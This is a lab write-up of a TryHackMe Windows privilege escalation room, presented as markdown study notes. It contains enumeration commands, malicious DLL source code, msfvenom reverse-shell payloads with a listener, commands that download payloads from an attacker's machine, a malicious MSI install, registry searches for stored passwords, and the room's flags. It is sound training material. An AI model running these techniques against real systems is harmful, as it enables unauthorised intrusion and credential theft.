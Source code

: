 <!-- TOC -->

- [Windows Privesc](#windows-privesc)
    - [Information Gathering](#information-gathering)
        - [User Enumeration](#user-enumeration)
        - [Collecting system information](#collecting-system-information)
        - [Searching files](#searching-files)
        - [Patch level](#patch-level)
        - [Network Connections](#network-connections)
        - [Scheduled Task](#scheduled-task)
        - [Drivers](#drivers)
        - [Antivirus](#antivirus)
    - [Tools of the trade](#tools-of-the-trade)
        - [WinPEAS](#winpeas)
        - [PowerUp](#powerup)
        - [Windows Exploit Suggester](#windows-exploit-suggester)
        - [Metasploit](#metasploit)
    - [Vulnerable Software](#vulnerable-software)
    - [DLL Hijacking](#dll-hijacking)
    - [Unquoted Service Path](#unquoted-service-path)
    - [Quick Wins](#quick-wins)
        - [Always Install Elevated](#always-install-elevated)
        - [Passwords](#passwords)

<!-- /TOC -->

# Windows Privesc

[Windows Privesc Room](https://tryhackme.com/room/winprivesc)

Learn the fundamentals of Windows privilege escalation. From enumeration to exploitation, get hands-on with privilege escalation techniques seen in the industry today.

## Information Gathering

### User Enumeration

```cmd
whoami /priv
net user
net user <USER>
qwinsta
query session
net localgroup
net localgroup <GROUP>
```

### Collecting system information

```cmd
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
hostname
```

### Searching files

```cmd
findstr /si password *.txt
```

### Patch level

```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Network Connections

```cmd
netstat -ano
```

### Scheduled Task

```cmd
schtasks
schtasks /query /fo LIST /v
```

### Drivers

```cmd
driverquery
```

### Antivirus

```cmd
sc.exe query windefend
```

## Tools of the trade

### WinPEAS

```cmd
winpeas.exe > outputfile.txt
```

### PowerUp

```cmd
powershell.exe -nop -exec bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

### Windows Exploit Suggester

```cmd
windows-exploit-suggester.py –update
windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt
```

### Metasploit

```bash
multi/recon/local_exploit_suggester
```

## Vulnerable Software

```cmd
wmic product
wmic product get name,version,vendor
wmic service list brief
wmic service list brief | findstr  "Running"
sc.exe qc <SERVICE>
```

- Searchsploit
- Metasploit
- Exploit-DB
- Github
- Google

## DLL Hijacking

```c
/* windows_dll.c */
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

rhost:

```cmd
wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll
sc stop dllsvc & sc start dllsvc
```

| Title | IP Address |
| :---- | :---- |
| DLL_Hijack | 10.10.123.106 |

```c
/* hijackme.c */
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user jack Password123");
        ExitProcess(0);
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc hijackme.c -shared -o hijackme.dll
```

lhost:

```bash
python3 -m http.server 80
```

rhost:

```cmd
wget 10.6.31.75:80/hijackme.dll -O C:\Temp\hijackme.dll
sc.exe stop dllsvc; sc.exe start dllsvc
xfreerdp /u:jack /p:Password123 /v:10.10.123.106
```

`Documents` folder:

> `THM-8377492093`

## Unquoted Service Path

```cmd
wmic service get name,displayname,pathname,startmode
```

| Title | IP Address |
| :---- | :---- |
| Unquoted_SP | 10.10.225.253 |

```cmd
sc.exe qc unquotedsvc
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

> `RW BUILTIN\Users`

lhost:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.31.75 LPORT=9999 -f exe -o Common.exe
python3 -m http.server 80
```

```bash
msfconsole
use exploit/multi/handler
set lhost 10.6.31.75
set lport 9999
set payload windows/x64/shell_reverse_tcp
run
```

rhost:

```cmd
wget 10.6.31.75:80/Common.exe -O "C:\Program Files\Unquoted Path Service\Common.exe"
sc.exe start unquotedsvc
```

lhost:

```cmd
cd ../..
dir flagUSP.txt /s
```
> ` Directory of C:\Users\Cora\Documents 10/14/2021  11:54 PM 16 flagUSP.txt`

```cmd
powershell
cat C:\Users\Cora\Documents\flagUSP.txt
```

> `THM-636729273483`

## Quick Wins

### Always Install Elevated

```cmd
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```bash
msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_10.10.225.253 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

```cmd
C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Passwords

```cmd
cmdkey /list
runas /savecred /user:admin reverse_shell.exe
```

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
